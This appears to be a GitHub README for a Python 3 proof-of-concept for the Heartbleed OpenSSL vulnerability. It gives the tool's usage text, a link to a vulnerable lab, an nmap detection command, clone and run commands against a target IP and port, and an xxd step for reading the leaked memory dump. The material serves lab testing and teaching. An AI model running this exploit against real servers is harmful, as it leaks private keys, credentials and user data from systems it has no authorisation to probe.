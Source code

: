 # heartbleed
A Heartbleed (CVE-2014-0160) PoC in Python 3

```
usage: python3 heartbleed.py [-h] host [port]

Heartbleed PoC

positional arguments:
  host        hostname or IP address
  port        TCP port number (default IS 443)

options:
  -h, --help  show this help message and exit
```

1. If you want a vulnerable server to test, you can set it up from [here](https://github.com/jas9reet/heartbleed-lab "Heartbleed lab")
2. Test for heartbleed vulnerability using nmap:
```nmap -v -p8443 --script ssl-heartbleed $IP```

3. Install the script if you haven't already, change to directory:
```git clone https://github.com/H4R335HR/heartbleed/ && cd heartbleed```
  
4. Run the script:
```python3 heartbleed.py $IP 8443```
5. After running the script, check the output file using xxd to see the results:
```xxd response_data.bin```
